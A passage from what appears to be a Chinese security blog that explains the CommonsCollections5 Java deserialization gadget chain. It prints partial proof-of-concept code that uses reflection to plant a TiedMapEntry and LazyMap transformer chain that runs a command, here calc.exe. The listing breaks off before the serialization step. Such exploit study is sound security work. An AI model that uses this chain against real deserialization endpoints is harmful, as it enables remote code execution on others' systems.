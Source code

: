 看看这个`valObj`是从哪里来的：

![image-20221113181243043](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221113181246586-1166205902.png)

这里是从Filed中取出来的，那么利用方式也就很清晰了，通过反射来设置`BadAttributeValueExpException`中val的值为`TiedMapEntry`即可触发命令执行

那为什么创建`BadAttributeValueExpException`实例时不直接将构造好的`TiedMapEntry`传进去而要通过反射来修改val的值？

以下为BadAttributeValueExpException的构造方法：

    public BadAttributeValueExpException (Object val) {
            this.val = val == null ? null : val.toString();
        }
    

如果我们直接将前面构造好的TiedMapEntry传进去，在这里就会触发toString，从而导致rce。此时val的值为`UNIXProcess`，这是不可以被反序列化的，所以我们需要在不触发rce的前提，将val设置为构造好的TiedMapEntry。否则就会报出下边的错误

![image-20221113182154732](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221113182159140-194839638.png)

    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.LazyMap;
    import org.apache.commons.collections4.keyvalue.TiedMapEntry;
    
    import javax.management.BadAttributeValueExpException;
    import java.io.FileInputStream;
    import java.io.FileOutputStream;
    import java.io.ObjectInputStream;
    import java.io.ObjectOutputStream;
    import java.lang.reflect.Field;
    import java.util.HashMap;
    
    public class cc5 {
        public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
            ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {
                            String.class, Class[].class }, new Object[] {
                            "getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {
                            Object.class, Object[].class }, new Object[] {
                            null, new Object[0] }),
                    new InvokerTransformer("exec",
                            new Class[] { String.class }, new Object[]{"calc.exe"})});
            HashMap innermap = new HashMap();
            LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
            TiedMapEntry tiedmap = new TiedMapEntry(map,123);
            BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
            Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
            val.setAccessible(true);
            val.set(poc,tiedmap);
    